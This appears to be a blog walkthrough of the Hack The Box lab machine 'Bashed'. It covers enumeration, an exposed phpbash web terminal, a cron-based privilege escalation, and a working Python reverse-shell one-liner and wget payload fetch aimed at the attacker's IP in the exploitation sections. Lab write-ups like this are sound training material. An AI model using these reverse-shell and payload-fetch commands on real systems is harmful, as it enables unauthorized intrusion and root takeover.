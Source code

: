 ```yaml
---
title: Bashed
date: 2020-05-22 18:59
description: HTB Walkthrough without Metasploit
featured_image: '/images/blog/bashed/bashed.png'
tags: ['Hack The Box']
---
```


In Bashed, we'll find a hidden directory where we'll have access to a bash terminal through a web browser. We'll use this bash terminal to gain access to the box by creating a reverse shell (x2!) to gain root access, without using Metasploit. So let's get started.

## Hack The Box

* Operating System: Linux 
* Difficulty: Easy

## Enumeration

Enumeration begins with the classic nmap scan.

<img src="/images/blog/bashed/nmapscan.jpg" alt="nmap scan">

	PORT   STATE SERVICE VERSION
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Arrexel's Development Site

From the results, we know that port 80 is open. So let’s start investigating.

### Website Information 

The first thing we can do is go to the web browser and enter **10.10.10.68**.

<img src="/images/blog/bashed/website.jpg" alt="web page of 10.10.10.68">

After investigating the webpage, it looks like it's some sort of blog that talks about phpbash. Nothing interesting. Checked in the source code and ran Burp Suite, nothing interesting in there either.

The next step is to run DirBuster to see if we can find any hidden directories.

### DirBuster

To run DirBuster, we can type `dirbuster` in the Kali Linux terminal. DirBuster should automatically open. For this scan, I selected the wordlist file: 

**/usr/shared/wordlists/dirbuster/directory-list-2.3-medium.txt**

<img src="/images/blog/bashed/dirbuster.jpg" alt="DirBuster results">

Interestingly, we can see that there's a /dev directory that's available and within it has phpbash.php. Let's go ahead and access that directory within the web browser by typing: 

**http://10.10.10.68/dev/phpbash.php**

Oh, it like we have access to a bash terminal. We can do some more enumerating by typing: 

* `whoami` = prints the userid (currently www-data)
* `uname -a` = prints system information 
* `sudo -l` = tells us what permissions we have

<img src="/images/blog/bashed/phpbash.jpg" alt="bash terminal">

We can see in the second to last line that we can run commands as **scriptmanager** without needing to enter in a password, that might come in handy later.

From the bash terminal we can also navigate throughout the system (FYI, you can find the user.txt file), I navigated to the root directory and found that there was a scripts directory in there--don't usually see a scripts directory in there.

So we can use the `ls -la` command to see a bit more about the file permissions. The image below shows that the user scriptmanager owns and has access to the scripts directory.

<img src="/images/blog/bashed/directory.jpg" alt="scripts directory">

Since we know from above that we can login as scriptmanager, I tried to switch users but it didn't work. In this scenario, since we can't switch users, it means that the bash terminal can only accept one command at a time, so we'll need to complete a reverse shell to gain access.

To gain a reverse shell, we need to find out which code the computer can accept. In this case, I've confirmed that this box accepts python by typing `which python`. This command tells us the location of the executables, and because it printed the path for python, we know that python is installed.

I think we have enough information to exploit the box, so let's give it a try.

## Exploitation

Before we start exploiting the box, let's recap what we found during the enumeration phase:

* In the nmap scan we saw that port 80 was open. 
* After running DirBuster, we found /dev/phpbash.php 
* By typing `sudo -l` we found out that we can log in as scriptmanager. 
* The scriptmanager user has access to a scripts directory. 
* Confirmed that the box can read python. 

Now that we've confirmed the above, let's start the exploitation phase.

### Gaining Reverse Shell

I used [Pentest Monkey's Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to find a python script that we can use. 

Before using it, in a Kali terminal we'll want to start a Netcat listener:  

`nc -lnvp 4444`

And then in the Bash terminal I typed in:

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Success! If we head back to the Kali terminal we should see that we now have a reverse shell.

<img src="/images/blog/bashed/reverseshell.jpg" alt="reverse shell">

Because we're currently logged in as www-data, we can switch users to scriptmanager by typing in:

`sudo -i -u scriptmanager` 

Once we've logged in we can go back to the scripts directory to see what's in there. As a habit, I like to type in `ls -la` to find out more information about the files within the directory.

<img src="/images/blog/bashed/scripts.jpg" alt="scripts directory">

In the image above, we can see that we have read/write access to a **test.py** file. Upon closer inspection, it also looks like the time noted in the **test.txt** increases every minute, so it's likely that the test.txt file is on cronjob to execute the test.py file. We can probably use this to our advantage and complete a privilege escalation to gain root access.

### Privilege Escalation

The first thing I did was create another **test.py** script on the Kali machine but edited it so that it has the script to create a reverse shell using python. 

<img src="/images/blog/bashed/test.jpg" alt="test script">

Before saving, make sure to remember the port number (in the image above, I used 4444) since we will be using it when we create another Netcat listener. 

Next, I created: 

- On Kali machine: `nv -lnvp 4444`
- On Bashed machine: `wget http://10.10.14.31:4444/test.py`

Now if we go into the Bashed terminal, we can see that it downloaded the file.

Afterwards, I removed the old test.py by using the `rm` command and renamed the new file so that it says test.py instead of test.py.1 by using the `mv` command.

Next, in the Kali machine, I created another listener `nc -lnvp 4444` (the same port number mentioned in the script) and waited for the cronjob to run. FYI, you can't run it yourself. You have to wait for the cronjob to complete or else you will not gain root access.

<img src="/images/blog/bashed/root.jpg" alt="root access">

Yes! We did it. To confirm we can type in the `id` command to make sure we have root access.

## Conclusion

If it wasn't obvious, having access to a bash terminal through a webpage is probably not the best way to keep a webpage secure. It was pretty easy to gain a reverse shell and then complete a privilege escalation to gain root access. So, don't have your bash terminals public everyone!